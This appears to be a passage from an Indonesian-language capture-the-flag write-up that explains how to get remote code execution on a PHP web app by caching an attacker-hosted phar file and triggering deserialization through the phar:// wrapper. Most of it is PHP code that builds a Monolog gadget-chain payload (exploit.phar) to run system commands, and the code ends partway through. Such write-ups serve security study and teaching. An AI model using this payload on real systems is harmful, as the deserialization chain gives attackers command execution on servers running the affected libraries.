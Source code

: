 #### Remote Code Execution

Dengan menggunakan fitur yang ada di web, kita dapat menyimpan konten body dari web kita di `/var/www/html/tmp/cache/mycache/CLIENT_IP/MD5(URL)/body.cache`. Strategi yang dapat dilakukan adalah:

1. Buat payload untuk melakukan PHP Object Injection dari berbagai Class yang tersedia.
2. Letakkan payload PHP Object Injection tersebut pada suatu file phar, misal `exploit.phar` di IP kita.
3. Download `http://IP/exploit.phar` dari web sehingga cache akan tersimpan di `/var/www/html/tmp/cache/mycache/CLIENT_IP/MD5(http://IP/exploit.phar)/body.cache`
4. Lakukan POST pada web dengan URL web sembarang dan data untuk membuka `phar://` stream wrapper sehingga terjadi `unserialization`.

Untuk `gadgets`, di sini kita akan mencoba menggunakan `Monolog` dengan referensi dari https://github.com/ambionics/phpggc/tree/master/gadgetchains/Monolog/RCE/1.

Berikut adalah kode untuk membuat payload `exploit.phar` yang akan mengeksekusi `system('ls -alt')`.

```php
<?php

namespace Monolog\Handler
{
    class SyslogUdpHandler
    {
        protected $socket;
        function __construct($x)
        {
            $this->socket = $x;
        }
    }
    class BufferHandler
    {
        protected $handler;
        protected $bufferSize = -1;
        protected $buffer;
        # ($record['level'] < $this->level) == false
        protected $level = null;
        protected $initialized = true;
        # ($this->bufferLimit > 0 && $this->bufferSize === $this->bufferLimit) == false
        protected $bufferLimit = -1;
        protected $processors;
        function __construct($methods, $command)
        {
            $this->processors = $methods;
            $this->buffer = [$command];
            $this->handler = clone $this;
        }
    }
}

namespace{
    $cmd = "ls -alt";

    $obj = new \Monolog\Handler\SyslogUdpHandler(
        new \Monolog\Handler\BufferHandler(
            ['current', 'system'],
            [$cmd, 'level' => null]
        )
    );

    $phar = new Phar('exploit.phar');
    $phar->startBuffering();
    $phar->addFromString('test', 'test');
    $phar->setStub('<?php __HALT_COMPILER(); ? >');
```
